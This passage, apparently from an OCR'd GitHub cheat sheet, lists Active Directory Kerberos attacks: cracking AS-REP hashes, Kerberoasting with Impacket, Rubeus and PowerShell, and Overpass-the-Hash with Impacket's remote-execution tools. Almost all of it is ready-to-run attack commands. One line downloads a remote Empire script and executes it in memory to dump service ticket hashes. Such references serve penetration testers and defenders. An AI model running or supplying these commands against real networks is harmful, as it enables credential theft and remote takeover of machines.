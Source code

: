 Cracking with dictionary of passwords:
```shell
hashcat -m 18200 -a 0 <AS_REP_responses_file> <passwords_file>

john --wordlist=<passwords_file> <AS_REP_responses_file>
```


## Kerberoasting

With [Impacket](https://github.com/SecureAuthCorp/impacket) example GetUserSPNs.py:
```shell
python GetUserSPNs.py <domain_name>/<domain_user>:<domain_user_password> -outputfile <output_TGSs_file>
```


With [Rubeus](https://github.com/GhostPack/Rubeus):
```shell
.\Rubeus.exe kerberoast /outfile:<output_TGSs_file>
```

With **Powershell**:
```
iex (new-object Net.WebClient).DownloadString("https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Kerberoast.ps1")
Invoke-Kerberoast -OutputFormat <TGSs_format [hashcat | john]> | % { $_.Hash } | Out-File -Encoding ASCII <output_TGSs_file>
```

Cracking with dictionary of passwords:
```shell
hashcat -m 13100 --force <TGSs_file> <passwords_file>

john --format=krb5tgs --wordlist=<passwords_file> <AS_REP_responses_file>
```


## Overpass The Hash/Pass The Key (PTK)

By using [Impacket](https://github.com/SecureAuthCorp/impacket) examples:
```shell
# Request the TGT with hash
python getTGT.py <domain_name>/<user_name> -hashes [lm_hash]:<ntlm_hash>
# Request the TGT with aesKey (more secure encryption, probably more stealth due is the used by default by Microsoft)
python getTGT.py <domain_name>/<user_name> -aesKey <aes_key>
# Request the TGT with password
python getTGT.py <domain_name>/<user_name>:[password]
# If not provided, password is asked

# Set the TGT for impacket use
export KRB5CCNAME=<TGT_ccache_file>

# Execute remote commands with any of the following by using the TGT
python psexec.py <domain_name>/<user_name>@<remote_hostname> -k -no-pass
python smbexec.py <domain_name>/<user_name>@<remote_hostname> -k -no-pass
python wmiexec.py <domain_name>/<user_name>@<remote_hostname> -k -no-pass
```
